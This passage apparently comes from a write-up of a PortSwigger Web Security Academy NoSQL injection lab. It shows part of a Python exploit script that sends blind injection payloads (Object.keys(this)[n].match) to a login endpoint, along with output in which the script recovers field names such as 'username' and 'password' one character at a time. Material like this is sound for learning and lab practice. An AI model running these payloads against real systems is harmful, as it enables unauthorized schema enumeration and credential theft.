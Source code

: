 ```python
                }
                loginRespond = requests.post(f'{self.baseUrl}{LOGIN_ENDPOINT}', json=loginData)
                isValidCharacter = False if 'Invalid username' in loginRespond.text else True
                isLastCharacter = character == LAST_CHARACTER
                isEmptyFieldName = True if len(fieldName) == 0 else False

                if not isValidCharacter and isLastCharacter and isEmptyFieldName:
                    print(f'[-] Looped through all possible characters, no luck. This field position {fieldPosition} doesn\'t have a field?')
                    return
                if not isValidCharacter and isLastCharacter:
                    print('[-] Looped through all possible characters, no luck. Maybe we found all the characters?')
                    print(f'[*] Field name: {fieldName}')
                    return
                if isValidCharacter:
                    fieldName += character
                    print(f'\n[+] Found valid character "{character}" on field position {fieldPosition}')
                    break

if __name__ == '__main__':
    baseUrl = 'https://0a5d009d04e55d29804112b8009f007b.web-security-academy.net'
    exploit = Exploit(baseUrl)

    # you can change your minimum/maximum field position here
    MINIMUM_FIELD_POSITION = 0
    MAXIMUM_FIELD_POSITION = 4
    for fieldPosition in range(MINIMUM_FIELD_POSITION, MAXIMUM_FIELD_POSITION):
        exploit.extractFieldNames(fieldPosition)
```

```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/NoSQL-Injection/NoSQLi-4)-[2023.10.10|15:17:08(HKT)]
└> python3 extract_field_names.py
[-] Looped through all possible characters, no luck. This field position 0 doesn't have a field?
[*] Sending payload: Object.keys(this)[1].match("^u.*")
[+] Found valid character "u" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^us.*")
[+] Found valid character "s" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^use.*")
[+] Found valid character "e" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^user.*")
[+] Found valid character "r" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^usern.*")
[+] Found valid character "n" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^userna.*")
[+] Found valid character "a" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^usernam.*")
[+] Found valid character "m" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^username.*")
[+] Found valid character "e" on field position 1
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Field name: username
[*] Sending payload: Object.keys(this)[2].match("^p.*")
[+] Found valid character "p" on field position 2
[...]
[*] Sending payload: Object.keys(this)[2].match("^password.*")
[+] Found valid character "d" on field position 2
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Field name: password
[*] Sending payload: Object.keys(this)[3].match("^p.*")
[+] Found valid character "p" on field position 3
[...]
```